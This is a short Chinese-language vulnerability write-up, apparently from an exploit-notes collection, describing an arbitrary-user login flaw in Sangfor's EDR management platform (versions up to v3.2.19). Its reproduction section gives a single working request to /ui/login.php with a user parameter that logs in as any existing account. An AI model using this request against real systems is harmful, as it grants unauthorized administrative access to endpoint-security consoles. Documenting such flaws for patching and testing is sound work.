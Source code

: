 # 

# 深信服 EDR 后台任意用户登陆漏洞

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，登录任意用户

## 漏洞影响

```
EDR <= v3.2.19
```

## 漏洞复现

https://xxx.xxx.xxx.xxx/ui/login.php?user=admin

注意最后的admin需要为存在的用户名

![img](./images/202202091912509.png)


